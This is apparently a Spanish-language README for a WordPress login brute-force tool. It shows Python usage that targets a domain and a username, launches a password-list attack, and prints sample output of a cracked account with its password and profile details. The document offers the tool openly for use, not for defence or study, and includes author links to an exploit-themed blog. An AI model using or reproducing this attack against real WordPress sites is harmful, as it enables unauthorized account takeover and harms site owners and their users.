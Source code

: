 # WP-Login- Brute-Force


# Se Crea una Instancia WordPressBruteForce
sitio_objetivo = WordPressBruteForce(wp_domain='example.com', wp_username='username')

"El nombre de usuario debe ser identificado con anterioridad,
el nombre de dominio debe incluir http:// o https://"

# Realiza un ataque de fuerza bruta
sitio_objetivo.brute_force_attack('password.txt')

"El archivo password debe contener una lista de potenciales contraseñas,
no debe llevar comas, y puede ser tan grande como se desee"

RESULTADO EJEMPLO:

Contraseña para "usuario1" Incorrecta.<br>
Autenticación -> "usuario2" | Password: "123456"<br>
Nombre de usuario: usuario2<br>
Nombre: Usuario<br>
Apellido: 2<br>
Correo electrónico: admin@example.com<br>
ID de usuario: 1<br>


Perfil: https://www.linkedin.com/in/wikitech/<br>
Blog: https://www.exploit505.blogspot.com

